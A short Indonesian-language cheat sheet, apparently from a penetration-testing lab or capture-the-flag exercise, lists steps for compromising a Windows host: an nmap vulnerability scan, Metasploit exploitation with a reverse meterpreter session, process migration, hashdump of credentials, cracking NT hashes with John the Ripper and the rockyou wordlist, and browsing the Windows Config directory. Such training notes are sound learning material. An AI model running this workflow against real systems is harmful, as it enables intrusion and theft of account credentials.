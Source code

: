 1. scanning -> sudo nmap -sV -p 0-1000 --script vuln ip
2. jangan lupa pas pake metasploit lhosts nya ganti jadi ip vpn aja
3. set payload juga kayak instruksi
4. kalau udah ctrl + z -> taruh session 
5. baru upload meterpreter -> set session nya -> session -l -> set aja terus run
6. kalau udah coba session -l -> ganti session -> sessions -i 1 -> coba dulu udah tulisan meterpreter belum
7. command ps, terus coba migrate 700 -> terus -> hashdump
8. ambil cred yang bukan default 
9. crack pake john -> john --wordlist=rockyou --format=NT passwd -> pisahin username ama passwd y
10. jangan keluar dari meterpreter
11. explore aja : di /, di /Users/Nama, di /Windows/System32/Config
